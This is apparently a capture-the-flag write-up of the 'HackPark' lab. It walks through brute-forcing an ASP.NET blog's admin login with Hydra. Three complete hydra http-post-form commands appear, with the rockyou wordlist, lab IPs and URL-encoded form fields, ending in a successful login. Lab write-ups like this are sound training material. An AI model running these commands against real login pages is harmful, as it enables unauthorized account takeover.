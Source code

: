 # HackPark Writeup

## Brute forcing Hydra
### If we navigate to the home page of our server, we are greeted by pennywise. When we press the hamburger icon, we get several options. With one of them being a login. Let's try that since our first task is using hydra to brute force logins. We are redirected to http://10.10.93.133/Account/login.aspx?ReturnURL=/admin/

### We can probably assume that the username will be admin. Actually, the first hint tells us that the username is admin. This makes bruteforcing exponentially quicker. This just saves us time, and doesn't necessarily make it any "easier" besides the time saving

### Let's log in with dummy credentials in order to capture all the arguments needed to brute force the credentials. If on firefox or chrome, enter CTRL + SHIFT + I before loggin in and go to the network tab.

### We notice 5 arguments. __VIEWSTATE, __EVENTVALIDATION, ctl00$MainContent$LoginUser$UserName, ctl00$MainContent$LoginUser$Password, ctl00$MainContent$LoginUser$LoginButton

### The first command I tried was
- hydra -l admin -P ~/tools/rockyou.txt 10.10.181.8 http-post-form "/Account/login.aspx?ReturnURL=/admin/:ctl00$MainContent$LoginUser$UserName=^USER^&ctl00$MainContent$LoginUser$Password=^PASS^:Login failed"

### The reason I used this command is because in the past, I've only supplied the needed arguments for username and password. This didn't end up working, so that means that we should provide all of them.

### Second attempt
- hydra -l admin -P ~/tools/rockyou.txt 10.10.181.1 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=ui7RM+iCE/bA9tKgBRfSyvpJRrJB7rfbtDJpI6UQ0h/42i8IvpDN3eq2b4X2xQ2R1YrU5PqyCFDxvaNTuwywGOto9GR/3UXWxNbl11VdpVHLi341sXVpPS5jgXimCXrSAotLIWWVOLMJxivhc2fuOnExZsgNFvHaUa2IZnUyqT6lTyyH&__EVENTVALIDATION=dGipPwMco9K5lkf29xxO1eYf4QamuLuzfGG86zE6HRAuJXN9kLwfQlzuaNf+BJM1AIW2zZi+n/jrPet2mlWhiZLYbInUPAodO9AEBjKk/6BYJ5VAv/b+0q9xGclIpOKJCNlEFMx7/eST0NJojOLC1ERu4Hpl3av1LG/e27hsFxPYNYIe&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"

### This also didn't work! What gives? I was still getting false positives. Hydra was saying that all of its attempts were validating successfully. Then, I noticed that the arguments have odd characters. I decided to URL encode some of the funny characters that may be interfering with hydra. Third command: 
- hydra -l admin -P ~/tools/rockyou.txt 10.10.93.133 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=3EP3vq6ynCC%2BE2JG9iaGIoJZyPvN41%2F9zSa0wgYGz4gr5yPADn9jWDB7J4yc54GZo3YTMCYihMgzZhq9pKzc22P%2BSeemeG%2FDlcE2Np77klkiMfquzAi%2Fuy%2BFWSBbcue4M6tl2DgSfaivwJ%2Bcz1ZP9B32F7KFBez%2Fr2NyBmhf0sGrR7Bh&__EVENTVALIDATION=qIukz%2FR5nG%2BOeg%2FfrsSEVkCV3vbeypnKdVNDu%2BIeH4hsrVuWXsY%2Beuf1CuioNkL%2FSC%2BbtWhtOU1oFlHM1NUDWbHJG6%2BakIxwSo9uhouIPOEEeOhHo2gsSfps201WU3t9McMmZSDxANysNPV6tBdaxEZnuFefLt9Dq8UwKRfNtc9frwDX&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"

### Success finally! We got the credentials and we can login to the admin portal.